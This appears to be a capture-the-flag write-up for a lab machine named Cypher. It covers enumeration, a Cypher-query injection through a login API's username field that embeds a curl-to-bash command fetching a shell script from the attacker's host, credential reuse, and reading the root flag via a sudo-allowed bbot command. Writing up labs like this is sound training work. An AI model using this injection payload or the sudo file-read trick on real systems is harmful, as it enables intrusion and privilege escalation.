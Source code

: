 # 🔮Cypher

## 🧠Summary
> After web and service enumeration revealed a small attack surface, I discovered an overlooked component that accepted unsanitised input, giving me remote code execution and an initial low-privilege shell. Local recon exposed clear-text credentials for a second user, and a misconfigured sudo-allowed utility let me read restricted files—ultimately granting access to both user and root flags.

## ↘️ACSII Visual
```text
[ Nmap Scan ]
     |
     v
[ Ports 80 & 22 Open ]
     |
     v
[ Web Recon ]
  └──> Login page (no register)
  └──> dirsearch → /testing/
               |
               v
     [ .jar Downloaded ]
         └── Decompiled → Input sanitization flaw (url param)

               |
               v
   [ Reverse Shell Injection ]
     └── "username":"intruder' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com; curl 10.10.16.8/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"tester"
     └── Injected via POST /api/auth in Burp
               |
               v
        [ Shell as www-data ]
               |
               v
     [ Found bbot_scan file with creds ]
               |
               v
     [ su graphasm → Got user flag ]
               |
               v
   [ sudo -l → Can run /usr/bin/bbot ]
     └── Used: sudo bbot -t /root/root.txt -o /intruder
               |
               v
     [ Dumped root.txt → Got root flag 🏴 ]
```

## 🔎Nmap scan
- Did a nmap scan to find the open ports
- The result revealed port 80 and port 22 opened
  ![](./screenshot/nmap_scan.png)

## 🌐Web enumeration
- Did web enumeration using dirsearch and found out that a page testing exsist
- Went into that page to find a .jar file that has the java .class code
  ![](./screenshot/java.png)

## 📌Loop hole
- Used a online decompiler to view the code and found a critical vunerablity
  ![](./screenshot/java.png)
- It failed to sanitize the url field
- Started a Burp Suite session and and checked the /login page
- Found that the entered username and password goes through a /api/auth endpoint
  ![](./screenshot/burp_suite.png)
- Created a json script inside the header tag containing a malicious code
  ![](./screenshot/malicious.png)
- Got the reverse shell

## ⚓Foothold
- Entered the machine and checked the /etc/passwd file found a user called graphasm
  ![](./screenshot/cat.png)
- Tried to gain the root flag but failed then found a file in home dir called bbot_scan
- Opened it and found a password inside it
- Did "su graphasm" and used the obtained password to gain access as a user and gained the user flag
  ![](./scrrenshot/user.png)
- Then checked the sudo -l and found that user has root prevelage to run bbot
- ![](./screenshot/bbot.png)
- Checked bbot and found it is an OSINT tool so used the command
  ```bash
  sudo bbot -t /root/root.txt -o /intruder
  ```
- The tool dumped the contents inside the intruder directory finally gaining root flag 🏴‍☠️

